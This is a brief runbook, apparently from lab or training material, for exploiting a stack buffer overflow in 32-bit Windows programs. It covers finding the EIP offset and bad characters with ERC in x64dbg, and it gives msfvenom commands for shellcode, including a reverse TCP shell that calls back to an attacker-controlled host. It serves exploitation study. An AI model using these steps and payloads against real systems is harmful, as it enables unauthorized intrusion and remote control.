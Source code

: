 # buffer overflow x86 windows

## Step 0: Setup

- Install [x64dbg](https://github.com/x64dbg/x64dbg), the x32 version.
- Install [ERC](https://github.com/Andy53/ERC.Xdbg), also the x32 version.

## Step 1: Take control EIP

- Get rough estimate offset (e.g. 1000)
- Create pattern.
```shell
ERC --pattern c 5000
```

- Calculate exact offset using the value of the EIP.
```shell
ERC --pattern o 1hF0
```
or automatically using
```shell
ERC --findNRP
```

- Verify offset by overwriting EIP.

## Step 2: Identify bad chars

- Generate chars string.

```shell
ERC --bytearray -bytes 0x00
```

- Compare characters from array to character in memory region, using the value of the ESP.

```shell
ERC --compare 0014F974 C:\Users\htb-student\Desktop\ByteArray_1.bin
```

## Step 3: Identify return address

To find a list of all loaded files by the program, we can use 

```shell
ERC --ModuleInfo
```

## Step 4: Generate shellcode

- Generate shellcode using `msfvenom`.
```shell
msfvenom -p "windows/exec" CMD="cmd.exe" --format "python" --bad-chars "\x00"
```
```shell
msfvenom -p "windows/shell_reverse_tcp" LHOST=$me LPORT=4444 -f "python" --bad-chars "\x00"
```

## Python

- A Python script for local buffer overflow can be at [GitHub](https://github.com/a3cipher/runbook/blob/main/ptes3-exploitation/binary-exploitation/bo-x86-windows-local.py).
- A Python script for remote buffer overflow can be at [GitHub](https://github.com/a3cipher/runbook/blob/main/ptes3-exploitation/binary-exploitation/bo-x86-windows-remote.py).
